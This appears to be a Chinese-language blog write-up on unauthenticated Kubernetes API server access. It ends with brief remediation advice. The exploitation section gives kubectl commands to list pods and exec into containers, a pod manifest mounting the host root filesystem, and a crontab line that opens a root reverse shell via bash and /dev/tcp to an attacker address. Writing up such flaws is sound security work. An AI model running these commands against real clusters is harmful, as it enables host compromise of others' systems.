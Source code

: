 title: Kubernetes Api Server 未授权访问漏洞
tags: [漏洞]
date: 2018-12-05
----

# 0x00 漏洞原因

Kubernetes 的服务在正常启动后会开启两个端口：

1. Localhost Port （默认8080）
2. Secure Port （默认6443）

这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。

![Web 页面](https://i.loli.net/2018/12/05/5c07dec609ff5.png)

正常情况下 Api Server 是有权限控制的，分三种：

1. Authentication
2. Authorization
3. AdmissionControl

如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限，甚至通过创建自定义的容器去获取宿主机的权限。

# 0x01 漏洞利用

利用方式按严重程度来说分两种，一种是直接通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器。另外一种利用方法就是通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，通过修改/mnt/etc/crontab 来影响宿主机的 crontab，获取一个反弹 Shell 拿到宿主机的权限。先说第一种方式。


首先，通过下面命令，去发现已经存在的容器

```
kubectl -s ip:port  get pods
```

![发现的容器](https://i.loli.net/2018/12/05/5c07e27b68f05.png)

然后直接连接这个容器获取 Shell。


```
kubectl -s ip:port  --namespace=default exec -it dockername bash
```
![获取容器权限](https://i.loli.net/2018/12/06/5c07f8c667de8.png)

这样就达到了控制容器的目的，但是容器的权限本身是不稳定的，如果宿主机本身的内核有问题的话，可以利用脏牛漏洞进行提权，获取宿主机的权限。具体可以参考：

[PoC for Dirty COW (CVE-2016-5195)](https://github.com/scumjr/dirtycow-vdso)
[DDirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)

第二种方式就比较厉害了，利用成功后造成的危害也最大。

首先我们根据官方的规范新建一个标准文件 `myapp.yaml` ,当然也可以使用 json 格式的。


```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
其中的 image 可以更换，最好使用基础镜像。

然后我们可以通过两种方式提交我们创建容器的请求，一种是通过他的 Web 页面（也就是默认的8080端口）

![Web 端方式提交](https://i.loli.net/2018/12/05/5c07e697f2044.png)

另外我们也可以通过他的另外的接口，通过 kubectl 客户端进行任务的提交。


```
kubectl -s  ip:port create -f yourfile
```

这里如果出现`Error from server (NotFound): the server could not find the requested resource`报错，可能是因为你的 kubectl 客户端和 kubernetes 的 server 端版本不相同导致的，一定要确保版本相同。

![版本确认](https://i.loli.net/2018/12/05/5c07edbf2b85e.png)

提交成功后，我们用之前命令获取容器的 bash，然后向容器的 `/mnt/etc/crontab` 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的/mnt 目录下，所以可以直接影响到宿主机的 crontab。


```
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /mnt/etc/crontab
```

接下来就是见证奇迹的时刻，耐心的等待你就能拿到 Shell 了，验证之后可以确认是宿主机的权限，而不是容器的权限

![获取宿主机权限](https://i.loli.net/2018/12/05/5c07e92f66a77.png)

# 0x01 漏洞修复

在使用 kubernetes 的时候我们一定要进行身份的校验，K8S 的 APi 其实有非常严格的认证和授权

![校验认证流程](https://i.loli.net/2018/12/05/5c07ea3d72caa.png)

最简单的是在 Authentication 增加静态的 password，或者 token，可以的话关闭 Web 端口的服务，保持最小化原则，避免安全风险的产生，可以参考 [官方文档](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#static-password-file)


